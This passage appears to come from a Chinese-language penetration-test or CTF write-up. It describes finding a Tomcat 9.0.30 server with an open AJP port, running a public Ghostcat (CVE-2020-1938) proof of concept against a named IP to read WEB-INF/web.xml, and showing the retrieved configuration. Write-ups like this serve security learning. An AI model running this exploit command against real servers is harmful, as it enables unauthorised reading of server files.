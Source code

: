 点着看了看，这个后台都没有向后端发送信息，就只是前端页面

用dirsearch扫到了docs目录

![image-20241118193321268](images/3.png)

发现时tomcat9.0.30，发现真的存在tomcat ajp任意文件包含，并且开放了ajp的端口

Tomcat9.0.30，存在一个AJP文件包含漏洞，这个可以去看漏洞分析https://zhzhdoai.github.io/2020/02/26/Tomcat-Ajp%E5%8D%8F%E8%AE%AE%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%E5%88%A9%E7%94%A8-CVE-2020-1938/

poc地址：https://github.com/00theway/Ghostcat-CNVD-2020-10487

```
python3 ajpShooter.py http://39.99.239.70:8080/ 8009 /WEB-INF/web.xml read
```

得到的web.xml如下

```
<!DOCTYPE web-app PUBLIC
 "-//Sun Microsystems, Inc.//DTD Web Application 2.3//EN"
 "http://java.sun.com/dtd/web-app_2_3.dtd" >

<web-app>
  <display-name>Archetype Created Web Application</display-name>

  <security-constraint>
    <display-name>Tomcat Server Configuration Security Constraint</display-name>
    <web-resource-collection>
      <web-resource-name>Protected Area</web-resource-name>
      <url-pattern>/upload/*</url-pattern>
    </web-resource-collection>
    <auth-constraint>
      <role-name>admin</role-name>
    </auth-constraint>
  </security-constraint>

  <error-page>
    <error-code>404</error-code>
    <location>/404.html</location>
  </error-page>

  <error-page>
    <error-code>403</error-code>
    <location>/error.html</location>
  </error-page>
```
